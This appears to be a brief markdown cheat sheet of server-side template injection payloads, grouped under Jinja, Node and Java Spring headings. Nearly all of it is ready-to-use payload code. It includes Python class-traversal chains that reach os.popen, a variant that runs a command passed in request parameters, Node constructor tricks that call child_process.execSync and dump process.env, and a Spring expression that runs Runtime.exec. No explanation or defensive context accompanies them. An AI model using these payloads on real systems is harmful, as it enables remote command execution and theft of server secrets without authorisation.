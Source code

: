 ## Jinja

- Method 1
```
{{"_".__class__.__base__.__subclasses__()[182].__init__.__globals__['sys'].modules['os'].popen("ls").read()}}
```
- Method 2 (using other parameters)
```
{% if session.update({request.args.key:self._TemplateReference__context.cycler.__init__.__globals__.os.popen(request.args.command).read()}) == 1 %}{% endif %}&command=id&key=payload
```

## Node

- Method 1
```
{{range.constructor("return global.process.mainModule.require('child_process').execSync('id')")()}}
#{7*7}
#{JSON.stringify(this.constructor.constructor('return process.env')())}
#{this.constructor.constructor('return process.mainModule.require("child_process").execSync("id", { encoding: "utf8" })')()}
```

## Java

- Spring framework
    - `*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`
